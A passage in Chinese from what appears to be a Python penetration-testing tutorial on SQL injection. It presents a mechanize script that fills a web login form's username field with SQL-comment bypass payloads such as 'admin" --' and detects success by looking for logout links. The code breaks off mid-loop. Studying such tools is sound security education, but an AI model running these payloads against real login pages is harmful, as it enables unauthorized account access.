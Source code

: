 前面的代码显示，如果`pass_exp`列表的所有值都已结束，则`while`循环将中断。

现在，让我们检查以下屏幕截图中的代码输出：

![](img/28f33c91-bf6d-417a-b141-d36043aad1ab.png)

SQL 注入攻击

前面的屏幕截图显示了代码的输出。这是清除程序逻辑的非常基本的代码。现在，我希望您修改代码并生成一个新代码，您可以在其中为密码和用户名提供列表值。

我们可以为包含`user_exp = ['admin" --', "admin' --", 'admin" #', "admin' #" ]`的用户名编写不同的代码（`sql_form7.py`，并在密码字段中填写任何内容。此列表背后的逻辑是，在管理员字符串`–`或`#`做出注释后，该行的其余部分在 SQL 语句中：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
form = raw_input("Enter the form name " )
br.select_form(name =form)
user_exp = ['admin" --', "admin' --",   'admin" #', "admin' #" ]

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(name =form)
  br.form[user1] = user_exp[p]
  br.form[pass1] = "aaaaaaaa"
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
```
